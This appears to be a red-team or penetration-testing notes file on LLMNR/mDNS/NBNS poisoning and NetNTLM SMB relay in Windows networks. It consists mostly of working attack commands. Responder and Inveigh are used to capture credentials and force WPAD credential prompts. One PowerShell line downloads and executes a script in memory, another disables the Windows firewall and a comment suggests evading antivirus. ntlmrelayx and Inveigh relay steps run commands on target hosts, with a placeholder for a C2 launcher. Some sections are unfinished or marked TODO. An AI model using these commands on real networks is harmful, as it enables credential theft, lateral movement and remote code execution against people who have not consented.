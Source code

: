 
# LLMNR/mDNS/NBNS poisonning and SMB relay

## Overview

MITRE ATT&CK mapping: [T1557.001](https://attack.mitre.org/beta/techniques/T1557/001/)

Reference:

```
LLMNR protocol: https://en.wikipedia.org/wiki/Link-Local_Multicast_Name_Resolution
mDNS protocol: https://en.wikipedia.org/wiki/Multicast_DNS
NBNS protocol: https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP#Name_service
```

## Procedures

### Classic Responder LLMNR/mDNS/NBNS poisonning

```
# most lightweight version: poisonning + capturing requests only to SMB
Responder.py -I eth0 -f

# as aobove + acting as WPAD web proxy
Responder.py -I eth0 -wrf

# also forces users to provide their creds on WPAD
Responder.py -I eth0 -wfFbv
```

### PowerShell DNS/LLMNR/mDNS/NBNS poisonning

```
# details:
# https://github.com/Kevin-Robertson/Inveigh/
# https://github.com/Kevin-Robertson/Inveigh/wiki/Basics
Invoke-WebRequest -Uri https://github.com/Kevin-Robertson/Inveigh/archive/Inveigh-master.zip -OutFile Inveigh-master.zip

OR (how's this differnet?):

# downloading Inveigh in PowerShell and loading it into memory with:
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1")

# unzip (when .NET Framework 4.5 is available):
[System.Reflection.Assembly]::LoadWithPartialName('System.IO.Compression.FileSystem')
[System.IO.Compression.ZipFile]::ExtractToDirectory(".\Inveigh-master.zip", ".\Inveigh-master")

# source your PS scripts
cd .\Inveigh-master; cd .\Inveigh-master; . .\Inveigh.ps1

# turn off win firewall (also antivirus should be turned off or evaded):
netsh advfirewall set  allprofiles state off

# run in poisoning mode (Needs PS console with admin privs):
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -NBNS Y -LLMNR Y -mDNS Y -HTTPS Y -Proxy Y -FileOutput Y

# run in limited poisoning mode (no admin privs):
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -NBNS Y -FileOutput Y

# to stop:
Stop-Inveigh
```

### NetNTLM Relay: classic

Prereq for success: 

1. SMB signing must not be enforced (i.e. one of the machines in the conversation must have `message_signing: disabled (dangerous, but default)` as a result of `nmap --script smb-security-mode -p445 192.168.12.0`)
2. For optimal impact (i.e. RCE) owner of the credetnials that are being relayed must have Local Admin privileges on target machine

**With Responder + impacket's ntlmrealyx/smbrealyx**

In `Responder.conf`:

```
; Servers to start
SQL = Off
SMB = Off
RDP = Off
Kerberos = Off
FTP = Off
POP = Off
SMTP = Off
IMAP = Off
HTTP = Off
HTTPS = Off
DNS = Off
LDAP = Off
```

Start responder: 

    responder -I eth0 -f -v

Start ntlmrelayx:

    impacket-ntlmrelayx -t smb://<ip-to-relay-to> --enum-local-admins -smb2support -c 'whoami /all' -debug

Reference:

    https://threat.tevora.com/quick-tip-skip-cracking-responder-hashes-and-replay-them/
    https://speakerdeck.com/ropnop/fun-with-ldap-kerberos-and-msrpc-in-ad-environments

**With Inveigh**

Capabilities:

NTLMv1/NTLMv2 HTTP/HTTPS/Proxy -> SMB2.1 relay

Procedure:

```
# we don't launch listener on HTTP as Invoke-InveighRelay will listen on it
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -NBNS Y -LLMNR Y -mDNS Y -HTTP N

# Prepare command to execute (e.g. launcher for C2 Empire):
TODO

# launch Relay (as cmd provide launcher command form Empire):
Invoke-InveighRelay -ConsoleOutput Y -StatusOutput N -Target <ip-to-relay-to> -Command <cmd-to-execute>
```

### NetNTLM Relay: IPv6 DNS server impersonation (mitm6)

    https://hausec.com/2019/03/05/penetration-testing-active-directory-part-i/

### Notes

Other tools:

```
https://www.fox-it.com/en/insights/blogs/blog/inside-windows-network/
https://github.com/SecureAuthCorp/impacket
```

## OPSEC considerations

## Counter-countermeasures
